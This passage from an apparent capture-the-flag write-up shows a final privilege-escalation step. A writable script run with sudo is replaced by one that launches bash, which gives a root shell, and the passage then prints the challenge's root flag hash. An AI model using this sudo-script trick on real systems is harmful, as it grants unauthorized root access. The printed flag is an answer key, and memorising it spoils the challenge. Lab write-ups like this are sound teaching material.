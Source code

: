     vi monitor.sh

n the monitor.sh script add the following code.

    #!/bin/sh
    bash

Give it execute privileges.

    chmod +x monitor.sh

Run the script with sudo.

    sudo ./monitor.sh

We are root!

![image](https://user-images.githubusercontent.com/87195021/162630220-c643f556-90b5-441f-ad8d-800ef98cfe28.png)

Grab the root flag!

de5e5d6619862a8aa5b9b212314e0cdd

![image](https://user-images.githubusercontent.com/87195021/162630257-19ab7869-fea0-46fe-a7aa-e5841b7b431c.png)